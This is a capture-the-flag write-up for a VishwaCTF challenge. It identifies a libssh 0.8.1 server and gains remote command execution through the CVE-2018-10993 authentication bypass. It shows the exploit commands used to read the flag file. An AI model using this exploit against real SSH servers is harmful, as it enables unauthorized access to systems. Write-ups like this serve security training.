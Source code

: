 ### Save The City
#### Description
```
The RAW Has Got An Input That ISIS Has Planted a Bomb Somewhere In The Pune! Fortunetly, RAW Has Infiltratrated The Internet Activity of One Suspect And They Found This Link. You Have To Find The Location ASAP!
```
#### Writeup
Firing up the nc command provided results in the following banner:
`SSH-2.0-libssh_0.8.1`
A quick search reveals known authentication bypass vulnerability CVE-2018-10993. Using a [script](https://gist.github.com/mgeeky/a7271536b1d815acfb8060fd8b65bd5d) to do the job: 
```bash
$ python cve-2018-10993.py -p 32378 -c pwd 13.234.11.113
$ python cve-2018-10993.py -p 32378 -c ls 13.234.11.113
$ python cve-2018-10993.py -p 32378 -c 'cat location.txt' 13.234.11.113
```
Finally outputs `elrow-club-pune`.

#### FLAG : `VishwaCTF{elrow-club-pune}`
